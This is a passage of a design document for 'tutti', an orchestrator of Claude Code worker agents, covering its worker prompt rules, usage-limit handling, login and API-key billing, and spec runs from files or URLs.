- **When `file_breakdown` has filed the tree** and the turn has ended (or was refused for the login, §4.13, tutti-1flm), tutti closes the session, the view goes, and the tree is checked as a spec's is (`checkFiled`, §4.14): a root that isn't an epic stops the run (`tutti won't run what the interview filed under <epic>: …`, exit 2; bd failing to read it, exit 4); open tickets under it without files metadata or acceptance criteria, and a cycle of blocks links among them, are warnings on stderr and in the log. Then `filed <epic>: N tickets, starting the run`, and the run goes on, scoped to the epic, as `--ticket <epic>` would: no plan is shown and nothing asks, as in orchestra 0.8.x. As orchestra 0.8.1's (tutti-kkb.61), the `START` line's scope is `feature <epic>`, with `feature: epic <epic>, talked through from: <request>` under it, the request on one line, its white space collapsed and cut after 200 characters (`featureLine` in `src/run/feature.ts`), and the run report's evidence gives the request under `The feature request epic <epic> was talked through from`, for New feature's description as for `--feature`'s request (`scopedTo` gives the run the one New feature typed). A feature run takes a spec run's defaults, as orchestra's does: workers in `auto` mode unless `workers.permission_mode` says otherwise (§4.5), and no ticket limit unless `--limit` gives one, which are every tutti run's defaults already.
- **A usage limit** is waited out as a breakdown's is (§4.14), the session told `tutti: the account's usage limit has reset. Carry on with the feature's breakdown where you left off.`; a reset too late or unknown ends it, as does a login refused before anything is filed.
- **Leaving the view** (`Esc` outside the composer, or **← Back**) asks `End the interview? Nothing has been filed.`, unless the session already filed something. Left with nothing filed: `tutti: the interview ended; nothing was filed.`, exit 0; with the tree filed: `Filed epic <epic> with N tickets; nothing was run. Run it with: tutti --ticket <epic>`; with the epic alone: `tutti: the interview ended with the epic <epic> filed, but not its tickets; nothing was run. Close it with: bd close <epic>`. Ctrl+C's quit box ends it with exit 130.
- **In a narrow pane** its header wraps the description's first line, and its hint every key, as the worker view's do (§7.5); both views share the transcript, the panel, the selection, the composer and their keys.
- **`--feature "<request>"`** (tutti-kkb.60, the maintainer's decision of 2026-10-30, as orchestra 0.8.x) opens the view as New feature does, with no start question, the request its first message, and runs the epic once it is filed, with no `[y/N]`; `--refine` with it is taken and changes nothing. There is no unattended feature run: without a terminal for the view (`--plain`, or stdin or stdout not a terminal), the run ends at once, exit 2, nothing filed, saying `tutti: --feature talks the feature through with you and needs a terminal that shows tutti's full screen; nothing was filed. tutti --spec <file> runs a request written to a file without you.` `--yes` and `TUTTI_YES`, which filed the screen and plan organs' plan without asking, are retired flags that stop the run as a setup problem, exit 2 (§8.2). The screen and plan organs, their plan confirmation and the log's `FEATURE` lines are gone with them.
- **A spec's refinement** (`--spec <file> --refine`, §4.14) is shown in the same view, its session the breakdown's with you there; leaving asks `End the breakdown?` while it has filed nothing.

### 4.11 The worker prompt

tutti's built-in worker prompt is orchestra's, rewritten where the tmux world shows through:

- no tabs; the orchestrator is tutti; paths are `.tutti/`; branches are `tutti/<id>`
- **Questions**: a decision that blocks the ticket and can wait for the maintainer is a `human` question ticket, as before. A quick choice the maintainer is likely there to make is `AskUserQuestion`. The prompt says which is which, and drops `AskUserQuestion` if Q3 removes it.
- **A question's options in its metadata**, as orchestra's prompt has them since 0.9.x: every question ticket gives 2 to 4 options, each a short label and a one-line trade-off, one of them recommended, in its description and in its metadata in the same order, `--metadata '{"options": [{"label": …, "description": …}, …], "recommended": <index, from 0>}'` (or that JSON in a file, `--metadata @<file>`, where a quote is in it) (the template's version 7). Workers wrote the recommendation several ways in the description, or not at all, and no code could pick it out. `questionOptions` (`src/services/Beads.ts`, as orchestra's in `answer_talk.go`) reads them from the metadata, an object or one encoded in a string: the recommended option first and the rest in their order, or none unless there are 2 to 4 options, each with a label, and `recommended` is an integer index of one of them; each label and description is sanitised to a line (§7.10), a label that is nothing once it is being none. `--auto-answer` (tutti-cmye, §8.2) answers with the recommended one, and `--overnight` puts them to the maintainer before the first ticket (tutti-kkb.51, §5 item 2).
- **A decision about another ticket is a question too**, as orchestra's prompt has it since 0.9.x (orchestra-tnei; the template's version 9): a decision only the maintainer can make about another ticket, a follow-up the worker files or one it names, is filed the same way, blocking that ticket and asked from the worker's (`--deps 'blocks:<that ticket>,discovered-from:<its ticket>'`), and the worker goes on with its own. Never only in its final message: nobody reads that, and that ticket's worker would decide it instead (on 2026-10-21 the parity audit, tutti-nrg.10.9, left its decisions about three tickets in its final message, and other workers decided them).
- **Answering the questions inside tutti** (tutti-kkb.35): on the dashboard, `Shift+A` opens the questions box (§7.3, `src/ui/QuestionsBox.tsx`), which puts the open questions of the run's scope one by one in the answer form the overnight pre-flight uses (`src/ui/OpenQuestion.tsx`): the title and description, the options from the metadata, the recommended one first and marked, Other to type your own, and Leave open; Esc closes it, leaving the rest open. The run reads the questions (`ReadQuestions`) and records each answer (`AnswerQuestion`) in fibers of their own, as bd's (`src/run/questionNews.ts`), and toasts say how each went. Outside the dashboard, `tutti answer` lists them and answers one (§8.1, `src/answer/questions.ts`). Every way of answering, the overnight pre-flight's too, records an answer the same way (`src/run/answerQuestion.ts`), as orchestra's answer talk does: the decision added to the design of each open ticket the question blocks, below what is there, under `Decided (<the question's ID>)`, then `bd human respond`, which closes the question; a run takes the ticket waiting on it back at its next look. A departure from orchestra, which answers in a Claude Code session that also talks a question through when asked: tutti answers in its own form and command, as tutti-kkb.35's design names them, without a session, and talks a question through only when asked.
- **Talking a question through** (tutti-i0sz): in the answer form, the dashboard's `Shift+A` box's and the overnight pre-flight's in the renderer, `Talk it through`, between Other and Leave open, opens a session about the question in the Interview view (§4.10), as orchestra's answer talk talks one through when the maintainer asks. The session (`src/agent/answerTalk.ts`, instructions `templates/answer-talk-prompt.md`, orchestra's `answer-prompt.md` adapted to one question) is in the main checkout, AgentHost's `interviewWorker`, read-only: the interview's built-in tools, and tutti's own server with `tickets_list`, `ticket_show` and `give_answer`. Its first message brings the question in between `pasted_content` tags (a worker wrote it): its description, its options from the metadata, the recommended one first, or a note that the session drafts 2 to 4, the open tickets it blocks with their description, design and notes, and the tickets it was asked from. The session reads the repository and answers what is asked; once the maintainer settles on an answer it hands it to `give_answer`, and records nothing itself. Once the answer is given and the turn is over, tutti closes the session and gives the answer back to the form, which records it as every other (`src/run/answerQuestion.ts`); a talk left, or whose session ends, before an answer puts the question again, saying why unless it was left. The view's head names it `Talk`, and leaving it before an answer asks `End the talk?` (the question stays open). On the dashboard, the box closes and offers `TalkQuestion`: the run talks in a fiber of its own while the run goes on, puts the talk's Interview view in the screen's talk slot (`ScreenInputs.talk`), which the dashboard draws in place of its screen, records the answer as `AnswerQuestion` does, then says `Talked` in the question news, and the box opens again at the next question, or at the same one when there was no answer; the talk's requests stay off the dashboard's. Outside a run, `tutti answer --talk <question>` (§8.1, `src/answer/talkHere.ts`) talks in a renderer of its own in the terminal, reading what a run's startup gives a session (the configuration, the Claude Code it resolves, the login probe's billing, the MCP servers) without its checks of the tree or the backlog, and holding the run lock while it talks, so that it never shares `.tutti/run` with a run: a run going on talks from its dashboard. Several talks in a row share `interviewWorker`'s transcript, so a later one's view has the earlier ones above it.
- **`maintainer_only`**: on purpose, a departure from orchestra. A question that asks the maintainer to do or give something rather than choose (make a key and give its public half, restart an app on the machine, run a demo by hand, file an issue on another project's tracker under their account, choose the licence), or to say yes to something done in their name, adds `"maintainer_only": true` to that metadata, still with its options where it has any. tutti never answers such a question for the maintainer (tutti-cmye): an answer by recommendation there would be tutti acting as the maintainer. `maintainerOnly` reads it, true only for the boolean `true`.
- **Checks in the foreground**: the rule stays, with a new reason. A worker waiting on a background command holds its slot while doing nothing, and its ticket can't merge until the command ends. Bash's default timeout is the merge check's time limit (§4.1), so the rule says to pass Bash no timeout: a shorter one moves the check to the background when it runs out.
- **Working unattended** stays, and adds that the maintainer may sometimes send a message: follow it, then carry on with the ticket. It asks for no to-do checklist, as orchestra's no longer does (orchestra-b48z): bd prime, which reaches workers through the user's settings, forbids TodoWrite and TaskCreate, and in about 725 orchestra worker sessions none kept one. Across compactions the worker keeps the ticket's notes current.
- **Never push, commit with the ticket ID, close only when the checks pass**, and the rest of orchestra's rules stay as they are.
- **A worker checks its own change**, as orchestra's prompt has it since 0.9.0: the suites on what its change touches (the modules it changes and their tests), the slower suites where they cover it, and lint and type checks on the files it changed; a check that runs the slower suites as well as the faster ones it runs alone, not after the faster one, which it would only repeat (template version 8: workers ran tutti's own check and then its slow form on the same ticket 67 times, 3.1 h of plain runs). It leaves the whole suite to tutti: the merge check runs on every ticket before it merges and hands it back when it fails, and the full check runs once at the end of a run. A whole suite per ticket on top of the merge check was the slowest part of a worker's time on a loaded machine. Where init knows the suites (the scout's, used as they are), the prompt lists each with the scout's command for part of the project (§6.3), or whole where there is none; a suite that takes turns is left to the merge check. Elsewhere it says the suites are the runners' lines.
- **Removals**: orchestra's rule against removing a target built from a variable or a glob stays, with tutti's reason: the safety check refuses such a removal unless a person approves it, and in auto mode refuses it outright (§4.5). The worker overwrites instead, writes to a new name, or removes a file by its literal absolute path.
- **A check run once**: a note after the prompt, as orchestra's `checkNote` (0.9.0), has the worker run a check once, its whole output saved to `.tutti/run/worker-check.log` in its worktree (git ignores it; the run's own check writes `check.log`) and its exit status printed, as in `<checks.fast.command> > .tutti/run/worker-check.log 2>&1; echo "exit $?"` (`checks.own.command`, a worker's own check such as `scripts/check-own.sh`, in its place where the project names one; `<the check>` without either), then read the file rather than run the check again to see what it said. Workers piped a check through `tail`, which hides its exit status, then ran it again to learn whether it passed. A note, not a line of the template, so a project's own worker prompt gets it too, naming its merge check. Its last sentence says other workers' checks run beside the worker's, and that `TUTTI_CORES` (and `ORCHESTRA_CORES`) in its environment is its share of the machine's cores (§4.1), for a check that runs things side by side to keep to; `GOFLAGS` keeps Go to it already.
- **The requires list** (§8.4), as orchestra 0.9.1's prompt: what a ticket needs of the machine (a tool, a service, a permission) goes in the project's requires list; a ticket that needs one the list lacks adds an entry, commits it with the ticket, and installs it with that entry's own install, never by hand outside the list, a manual step asked of the maintainer as a question (the template's version 6). A note before the check note names the list's entries now, and the rule itself for a prompt without its words; where the main checkout has a `README.md`, it asks a worker that changes the list to write the README's section again and commit it with the list.
- **The requires tools**: on purpose, a departure from orchestra, whose workers run `orchestra requires` in a shell. tutti hosts its workers in-process, so each worker's session gets tutti's own in-process MCP server, `tutti` (`createSdkMcpServer`, `src/agent/requiresTools.ts`), beside `workers.mcp_servers`, a server of its own made for its worktree: `requires_check` checks the list in the worker's worktree as `tutti requires` does (each entry's check, for one that fails its install, then the check again; `names` checks only some entries, `no_install` only checks), each entry's state a line of its answer; `requires_readme` writes the README's section from the worktree's list, as `tutti requires --readme` does. Both read the worktree's `.tutti/settings.json`, so the worker checks the entry it just added, and writes that README, on its branch, without tutti on its PATH. The requires note names the tools in place of the shell command. `requires_readme` is allowed without asking (a PreToolUse hook): it writes only the generated section in the worker's own worktree. `requires_check` runs only the entries the main checkout's list has as they are there, and runs them in the main checkout, as a run's start does, so neither the commands nor the files they run are the branch's; the permission mode decides the call as any tool's. An entry the branch adds or changes (`x: new on your branch, so tutti doesn't run it: run its check with Bash, '<check>'; where it fails, its install, '<install>', then the check again`) is the worker's to write, so its commands are given back for the worker to run with Bash: there the permission mode sees them (the classifier, a person, Bash's rules, the sandbox), and they run in the workers' environment. Run by tutti, a worker-written install would be hidden behind a permission request that shows only the entries' names (tutti-3fhp). A server of `workers.mcp_servers` named `tutti` gives way to it.
- **The usage limit**: a note after the check note, as orchestra 0.8.1's, has the worker, at the account's usage limit, commit what it has and stop, without deferring or closing its ticket for it: it carries on after the reset (§4.12). A note, not a line of the template, so a project's own worker prompt gets it too.
- **Moved out of the system prompt**: the time it has and the `--ticket` line go in the first message (§4.1), so a resumed session gets current values.
- **One more verifier round** (tutti-19v9; the template's version 10): the Verify section has the worker defer a ticket after three verifier rounds that still end in FAIL, and a worker that fixed the gaps and committed first left its fix unverified, its ticket to triage (in Fabrica's spec run, two such tickets held six others for the rest of the run). tutti sees each round through the verifier's hooks (`src/agent/hooks.ts`' `verifierEvent`, kept per worker by the host as it folds them): its `PreToolUse` the round's start, with the hashes its prompt names, one of them the commit the worker gave it, and its `PostToolUse` or `PostToolUseFailure` its end. When a worker defers its ticket after three rounds and its branch has commits beyond the one the last round checked (the newest of the branch's commits beyond the base its prompt names), tutti takes the ticket back once in the run, before triage (`src/run/lastRound.ts`): it sends the idle worker, client_composed, `tutti: your last fix, <10 hex>, hasn't been verified: run the verifier once more on it, with the earlier rounds' findings. Close the ticket if it passes; defer it if it fails.`, notes it on the ticket, waits for the message as for a nudge, and settles it again; the log says `<id> deferred after three verifier rounds with its last fix unverified: one more round`. A pass closes the ticket for the merge queue; a ticket deferred so a second time goes to triage as before. A deferral with no commit since the last round, before a third round has ended, whose last round names none of the branch's commits, or by a worker you have steered (§4.3), is handled as before. The Verify section says the run gives that round, so that a worker commits its fix rather than drop it.

### 4.12 Usage limits

On a subscription login, many workers at once reach the account's usage limits. The SDK says when:

- **`rate_limit_event`** messages carry `rate_limit_info`: `status` (`allowed`, `allowed_warning`, `rejected`), `rateLimitType` (`five_hour`, `seven_day`, …), `resetsAt`, `utilization`, and overage fields.
- **The account's windows.** Every `rate_limit_event`, `allowed` ones included, carries the account's windows in `rate_limit_info.unifiedWindows` (`{ "five_hour": { "utilization": 0.17, "resetsAt": 1792754400 }, "seven_day": { … } }`), in whole points, sent when a figure changes; the top-level `utilization` is there only once Claude Code warns or refuses. `UsageLimits` keeps each window at its latest figure, with when it was reported. The field isn't in the SDK's types (`sdk.d.ts`), so it is read defensively, any window's name and each part only where it is a number (an unreadable field is none, and the rest of the event is read as before), and a contract test (§13) pins it for the embedded Claude Code.
- **A turn that ended on the limit** comes as a `success` result with `is_error: true` and an API error status of 429, or as `api_retry` messages before it.

**Always.** The dashboard's title line shows the account's windows, in `quiet` grey (§7.11; faint until tutti-04sn), in Claude Desktop's words: `Current usage ━───────  17% · This week 41%`, the five-hour window (`five_hour`) first with a gauge of eight cells, a heavy line `━` for each eighth used, to the nearest, and a light one `─` for each left, two spaces before its figure, then the seven-day one (`seven_day`); a model's weekly window names the model, `seven_day_opus` being `This week (Opus)`. A narrow pane puts the tighter window first without the gauge, `This week 41% · Current usage 17%`, then shows it alone, before it drops it as it drops the usage banner. The gauge was `▰▱` until tutti-1l30, a departure on purpose: common terminal fonts lack both, so the terminal drew them from a fallback font, and in Ghostty the gauge's first and last cells looked off-colour against the others, likely where the faint glyphs spilled over their cells and overlapped; terminals draw box-drawing lines themselves, to the cell. It was ten cells, one a tenth, until tutti-tgfm, shortened as it was long beside the rest of the title line's right side. A window whose reset has passed is left out until an event gives its next figure. Each window's figure is a `usage_window` event (§10): the first the run hears, then each that differs, so that a ticket's share of a window can be estimated from how it rose while its worker ran.

**`allowed_warning`.** In place of the windows, the dashboard's title line shows `usage 85% of the five-hour limit · resets 14:05` in `notice` (yellow in the `orchestra` scheme; `windingDown` is for winding down only, §7.11), and the log says it once per limit. Dispatch doesn't change (§15, Q9).

**`rejected`** holds the run with `USAGE_LIMIT`, as does an organ call refused for the limit: its session's turn ends on it as a worker's would, and it fails with the limit's name and reset from that session's `rate_limit_event`, which the hold takes as a rejection (unknown when it came with none). The reset lifts it as below, whether or not workers are still running, as in orchestra 0.9.0 (orchestra-8jw3):

- No new tickets start.
- A worker whose turn ended on the limit is `UsageLimited`. It isn't nudged, doesn't settle with "nothing done", isn't triaged, and doesn't count toward the environment hold. Without this, workers stopped by the limit would look like failures and end the run with `ENVIRONMENT`.
- A worker that stops at the limit with its ticket deferred has the ticket put back in progress, a note on it saying why, and the log saying `<id>: its worker deferred it as it stopped at the usage limit; back in progress, it waits for the reset`: it waits in the hold and carries on after the reset rather than being set aside, as in orchestra 0.8.1.
- The dashboard shows `usage limit (five-hour) · resets 14:05 · 3 workers wait for it`, and a notification fires once.
- **When it lifts.** At `resetsAt` plus one minute, or sooner on evidence: a session's `allowed` or `allowed_warning` event for the held limit (or any, when the hold names none), a minute or more after the hold began, shows the account under the limit again and lifts it. A reset at or before now is unknown, as one the clock or the server has wrong, and an unknown reset (none given, or one passed) is tried again 15 minutes after the hold began. Lifts are at least 15 minutes apart, as orchestra's are, so a limit that keeps refusing holds the run again at most that often, never at request speed. A worker's rejection goes with its turn: a later turn failing for another reason is `Failed`, not `UsageLimited`.
- **The probe before a lift on the clock.** At the reset plus one minute, or the next try, the hold asks the account first (`UsageProbe`), rather than sending every waiting worker a carry-on the limit may refuse again: one Claude Code session of one turn, isolated as an organ's (§6.1) and billed as workers are (§4.13), a few tokens to haiku, or to the model a seven-day limit of its own counts (`seven_day_opus`, `seven_day_sonnet`). It costs about a hundredth of a cent, logged as an organ call's (`ORGAN usage-probe: $0.0001 in 1 turn, 1.4s`). Answered without refusal (or with an `allowed` event), the hold lifts. Refused (a rejected `rate_limit_event`, a `rate_limit` error or a 429), it holds on to the reset the probe's event gave, read as any reset is, or tries again 15 minutes later, saying `USAGE_LIMIT: a probe is refused for the five-hour limit still; it resets at 15:05, in 59m` (`…; tutti tries again at 14:21, in 15m`), and no worker is told anything. Unanswered (the session didn't start, failed otherwise or took over a minute), it lifts on the clock, saying `the usage probe got no answer (<why>); the hold lifts on the clock`. A session's word that the account is under the limit lifts the hold with no probe, and interrupts one under way. orchestra lifts blindly at its retry; tutti probes, as it can run a session of its own in-process.
- When it lifts, tutti sends each `UsageLimited` worker a `client_composed` message to carry on: with its ticket, or, on a hand-back (§4.7), with the hand-back, which the message names; a worker whose hand-back was taken from git (`ToMerge`, `Merging`, `Done`) is told nothing; one handed back its ticket while at the limit is sent the hand-back itself. The log says `USAGE_LIMIT lifted`.
- A worker at the limit on a hand-back waits for the reset as one on its ticket does, once its hand-back waits for it (kept for the reset, or its turn on it ended on the limit), not while its hand-back is handed over or what it left is checked: with nothing else running, the run waits for the reset, or ends `USAGE_LIMIT` as below, the hand-back left as it is.
- A hand-back kept for the reset (§4.7) that the run's end overtakes, as it ends `USAGE_LIMIT` or is quit, is never sent: the end takes it back. A conflict hand-back's rebase is aborted, its worker never having seen it, so that the next run merges the ticket again (closed, it is carried over `ToMerge`) and hands the conflicts back, rather than set it aside `OFF_BRANCH` mid-rebase; a check hand-back's branch is left as the check failed on it, for the next run to check again. The closing line names each: `b's worker, at the usage limit, was never handed its conflicts to resolve: its rebase is aborted, for the next run to merge b again` (`its failed check to fix: the next run merges b again`; `…, and its rebase could not be aborted, so <worktree> is left mid-rebase` when git can't abort it).
- If nothing else is running, the run waits until the reset, showing the countdown, with a dashboard or without one. `q` quits during the wait. With a reset that has passed, it waits for the next try: `USAGE_LIMIT: nothing else runs; the five-hour limit was to reset at 14:05; tutti tries again at 14:21, in 15m`. It ends `USAGE_LIMIT` (exit code 8) only when no reset was given or the reset (or next try) is later than `--usage-limit-wait` (default 6h).
- Organ calls during the hold are skipped with a log line. The reviewer runs once the limit resets, or is skipped if the run ends first.

Overage in use (`isUsingOverage`) is shown beside the usage line.

**A reset on another day says its day.** A reset is `14:05` on the day it is read, and with its weekday and date on another, `Fri Oct 23 14:05`, as orchestra's `ResetLabel` gives it: a seven-day limit hit on Tuesday resets on Friday, and a five-hour one hit late in the evening after midnight. The banner, the cards, the warning line, the log lines, the notification and the stop line all show it so (`resetLabel` in `src/run/localTime.ts`).

Every change of status is a `usage_limit` event (§10).

### 4.13 Login, account and API key

**The probe.** At startup (and in `tutti init`), tutti starts one session with the workers' options and no prompt, using the SDK's `startup()` or a `query()` that sends no message. It reads `initializationResult()` and the session's settings (`getSettings()`), neither of which costs a model turn. It runs none of the hooks of the settings files and plugins (`disableAllHooks`, in its flag settings; workers keep theirs): a project's SessionStart hook, `bd prime` say, held up its initialization by 0.1-0.8 s, and every start with it, for nothing it reads. Telemetry stays on, though Claude Code then takes about 0.75 s to exit, flushing it (with `DISABLE_TELEMETRY=1`, 25-60 ms): with it off, Claude Code 2.1.301 fetches no feature gates, and its initialization result lists fewer models and commands (the plugins' among them), so a gated feature such as auto mode could read as unavailable to the probe while workers have it. The probe doesn't wait for that exit: once the session has answered, it is closed and the probe answers, its exit awaited in the background in the run's scope, whose close waits for it (and kills its process group after the 10 s close limit), so a run's start doesn't wait out the flush; `tutti init` and `tutti login` still wait for it as their probe ends. It reads:

- **`account`**: email, `subscriptionType`, `apiKeySource`, `apiProvider`. Without a login, the startup check fails: `Not logged in to Claude: run claude /login, or tutti login`. Logged out, the account has no email and no `subscriptionType`, only `apiProvider: "firstParty"` (docs/spikes/07-compile.md, § 5).
- **`tutti login`** runs `<extracted claude> auth login` with stdin, stdout and stderr inherited (docs/spikes/07-compile.md, § 5). That is the claude.ai login, `auth login`'s default (`--claudeai`): it opens the browser, prints the URL in case it didn't open, and waits for a code to be pasted. `claude /login` is the same login from inside a session. `tutti login` doesn't offer `--console`, the Anthropic Console login for API billing (§15.2); `--billing api` with `ANTHROPIC_API_KEY` is the API path. `claude auth status --json` reports `loggedIn` and `authMethod` (`"none"` when logged out, with exit code 1), but the startup check needs no second command: the probe already has the account. The login is the user's, not the project's: it reads `--claude` (`TUTTI_CLAUDE`) and the billing (`TUTTI_BILLING`, the user config's `billing`), and no other variable. A project's settings or user config it can't read gives their defaults, the user config's problems said as warnings, so no project setup keeps it from running.
- **Settings files skipped for errors**, from `getSettings()`'s `errors` (`{ file, path, message }` each). The SDK skips a settings file that doesn't parse, "and any rules it contained — including permission allow/deny lists — are not applied". Workers must not run without your deny rules, so this is a setup problem naming the file and the error. The SDK's docs put `errors` in the initialization result, but Claude Code 2.1.301 (SDK 0.3.301) leaves it out there, even with a malformed `.claude/settings.json` and an invalid `settings.local.json`; `getSettings()` lists both. tutti reads `errors` from both and lists each file once.
- **The permission mode in effect** (`current_permission_mode` in the initialization result), for the `START` block (§4.1).
- **Untyped, so an SDK update may move them.** `getSettings()` is a control request the session answers at runtime, and `current_permission_mode` a field of the initialization result, but neither is in the SDK's types (`sdk.d.ts`). tutti reads them as unknown values, and a contract test (§13) pins both for the embedded Claude Code, so a bump that moves or drops one fails that test rather than letting the probe miss skipped settings files.
- **An untrusted main checkout** (§4.1), from the probe's stderr, not its initialization result. The probe passes `stderr` and reads every line the session wrote until it has answered: Claude Code 2.1.301 writes the line as it loads its settings, about 0.45 s before it answers initialize, though on another pipe (the live contract test pins it). A line saying Claude Code ignores `permissions.allow` entries because the workspace "has not been trusted" is a setup problem: `Claude Code ignores the permissions.allow rules in <file>: <main checkout> isn't trusted. Run claude once in <main checkout> and accept the trust dialog, or run tutti init to mark it trusted.`
  - **Claude Code's verdict, not tutti's.** tutti doesn't decide trust itself from `hasTrustDialogAccepted` in the user's `.claude.json`. That is Claude Code's internal state, and Claude Code applies its own rules to it. A checkout whose settings allow nothing prints no such line and isn't a problem. One that gains allow rules later is caught by the next startup's probe.
  - **The wording is matched loosely**: `permissions.allow` and `not been trusted` in one line, whatever the count, file or punctuation. A contract test (§13) pins it for the embedded Claude Code, so an upgrade that rewords the line fails that test on the bump rather than letting the probe miss it.
  - **Startup never writes `.claude.json`.** It only reports. `tutti init` offers the fix and asks first (§8.3).

**A login refused in a turn.** The probe reads the account, which an expired login still has (email, `subscriptionType`), and costs no model turn, so it can't see the token refused: only a turn does. On 2026-10-28 a resumed worker's turn failed at once, its assistant message with `error: "authentication_failed"` and its result `subtype: "success"`, `is_error: true`, `terminal_reason: "api_error"`, `api_error_status: null` and `result: "Failed to authenticate: OAuth session expired and could not be refreshed"`; read as a failed turn, its ticket was deferred and triaged, triage and the reviewer failed on the same login, and with more tickets ready each worker would have failed so in turn, until the environment hold ended the run `ENVIRONMENT`. So (`src/run/login.ts`):

- **The worker is `LoginRefused{error, told}`** (§4.2), as a turn ending on the usage limit is `UsageLimited`: not `Failed`, never settled. `src/agent/reading.ts` reads `authentication_failed` on an assistant message as it reads `rate_limit`.
- **The run quits, as a quit does** (§4.8), with a stop of its own: the log says `<id>'s turn was refused for Claude's login (<error>): the run stops, its workers stopped and their sessions kept for the next run`, every worker is interrupted, the merges stopped, triage aborted, every session closed and suspended (`LOGIN`), and the run ends `LOGIN: Claude's login was refused (<error>): run claude /login, or tutti login, then start tutti again`, with what was saved after it (`; t-1's session is saved for the next run`), exit 2. No ticket is deferred, noted or triaged for it, and no organ is called after it, the reviewer's report included, as they would fail on the same login. Any worker's turn, a hand-back's or the breakdown's (which ends `tutti couldn't break the spec down: Claude's login was refused (<error>): run claude /login, or tutti login`) as well as a ticket's, stops it; the stop names the ticket where it is one of the run's.
- **The next run tells it again.** The worker never took in what its refused turn was to tell it: a question answered (§2 Question), a carry-on, a hand-back, its first message. Those texts are saved on its ticket in `state.json`'s metadata (`login_refused_told`), and the next run resumes its session with them after `tutti: the last run ended (LOGIN) as Claude's login was refused, before you could take in what it sent you; this run resumes your session and sends it again.`, the run's facts after them, rather than the carry-on message; the metadata is forgotten as it is sent, and by a fresh start of the ticket. A turn refused again with that message saves it as it is, so it isn't wrapped twice. The other workers suspended by the stop get the carry-on message, `(LOGIN)` its why.
- **Waiting in the run for a new login**, as the usage limit waits for its reset (§4.12), is not done: a login needs you, at a browser.

**The API key.** `ANTHROPIC_API_KEY` in the environment outranks the subscription login, for workers and organs alike, and would bill the API without a word.

- **With both a subscription login and the key set**, tutti removes the key from workers' and organs' environment. The probe is run without the key to find the subscription. The `START` block says `billing: subscription (ANTHROPIC_API_KEY is set but not used; --billing api uses it)`.
- **`--billing api`** (or `TUTTI_BILLING=api`, or `"billing": "api"` in the user config) keeps the key.
- **With the key and no subscription**, the key is used, and `START` says `billing: API key`.
- **With `TUTTI_ORGAN_PROVIDER=anthropic`** (§6.1), organs bill the key over the Messages API whatever bills workers, and `START` says so: `billing: subscription for workers, ANTHROPIC_API_KEY for organs (TUTTI_ORGAN_PROVIDER=anthropic)`, or `billing: API key, for workers and organs (TUTTI_ORGAN_PROVIDER=anthropic)`.

This matters beyond cost. The Agent SDK's terms ask third-party products not to offer claude.ai login; using your own login on your own machine is what tutti does (§15.2).

### 4.14 Spec runs

`tutti --spec <file>` (`TUTTI_SPEC`) builds what a spec describes, a feature or a whole app written down in a Markdown or plain-text file on this machine, as orchestra 0.8.0's `--spec` does (its `docs/running.md` § "A whole app from a spec"): it commits the spec, breaks it down into Beads tickets under a root epic, with nobody there, and runs them as `--ticket <root epic>` runs (tutti-kkb.28). `--refine` (`TUTTI_REFINE`) breaks it down with you instead. A spec may also be at a web URL, `--spec https://…`, tutti's own addition (below); the start question's Spec option starts one too (§5 item 3, tutti-kkb.54). The code is `src/run/spec.ts` (the spec's file, its commit, its root epic), `src/run/specSource.ts` (a spec at a URL), `src/run/specTree.ts` (the tree the breakdown hands back, checked and filed), `src/agent/breakdown.ts` and `src/agent/breakdownTools.ts` (the session and its tools), `src/run/specRun.ts` (the run's start), `src/run/specStart.ts` (the start wired into the run: the setup read from the flags, the run scoped and the lock rewritten, an early start's breakdown followed) and `src/project/templates/spec-prompt.md` (the instructions).

**The spec.** It is read with the startup checks (§5 item 1), its problems listed with theirs, exit 2: `Spec not found: <file> (--spec).`, `… is empty: write what to build in it first.`, `… isn't text: give a Markdown or plain-text file, in UTF-8.` (a NUL, or not UTF-8), `… is a folder`, `Cannot read the spec …`, a spec in the repository's `.git`, and one git ignores (`git ignores <path>, where the spec (--spec) is kept, and workers only see committed files: …`), `TUTTI_SPEC` named in place of `--spec` when the variable gave it. With `--feature`, `--ticket` (or `TUTTI_TICKET`), `--tickets`, `--overnight` or a `--limit` of 0, and `--refine` without a spec, it is a setup problem too. The spec itself may be uncommitted: it is no clean-tree problem. A relative path is taken from the folder tutti was started in, for the variable too.

**Committed.** Once the run holds its lock, the spec is committed alone, on the branch checked out, before anything is broken down: a file in the repository where it is, one outside it as a copy in `.tutti/specs/<its name>`, tutti's place for orchestra's `.orchestra/specs/`, over the copy an earlier run made (`.tutti/.gitignore` leaves out only `run/`, `reports/` and the log, so it is committed). The path in the repository names the spec from one run to the next. A copy's commits record where it came from (`Spec-Source: ~/specs/shop.md`, home as `~`), and a spec from another folder with the same file name is a setup problem, as it would take the other's tickets: `The spec <file> (--spec) has the name of another: .tutti/specs/shop.md holds the copy of another spec, ~/specs/shop.md, and would take its tickets. …`; a copy whose commits record no source, committed by hand, is taken. The message is `tutti: add spec <name>`, or `tutti: update spec <name>`, with `sha256 <hex>` in its body; a spec committed already as it is stays as it is. The run says `committed the spec <path> (sha256 <12 hex>)` or `the spec <path> is committed already (sha256 <12 hex>)`, and the log `SPEC: committed …` or `SPEC: <path> is committed already (sha256 …, commit …)`. The commit and its line are uninterruptible, so a stop as it commits still says what was committed. Every issue of the tree carries the metadata `spec`, the spec's path: a worker is told of the spec in its first message (§4.1, `src/run/start.ts`'s `specOf`), and its footprint leaves the spec out unless its `files` metadata lists it (§5 item 5).

**At a web URL.** On purpose, a departure from orchestra, whose `--spec` takes a file only (tutti-kkb.53; the maintainer chose a web URL over SSH and `owner/repo` paths): `--spec` (and `TUTTI_SPEC`) takes an `https://` URL too, a text starting with a scheme and `://` being a URL, not a path. It is fetched once a run, where a file is read, with the startup checks, its problems listed with theirs, exit 2; the text is held and committed once the run holds its lock, as a file from outside the repository is (`src/run/specSource.ts`, `readSpec`'s URL side in `src/run/spec.ts`). A run in a repository init hasn't set up fetches it for its setup, and its checks take that fetch (`fetchOnce`).

- **The fetch.** Through Effect's `HttpClient` (`FetchHttpClient` in a run, a test layer, `src/testing/HttpClient.ts`, in tests): a GET with no credentials, no cookies and no trace headers, redirects followed by tutti up to 5, each over https; within 30 s in all and at most 5 MB. An `http://` URL is a setup problem (`… is fetched over http: fetch the spec over https.`), as is another scheme, and a URL holding a user name or password, as tutti sends no credentials. Its fragment is never sent.
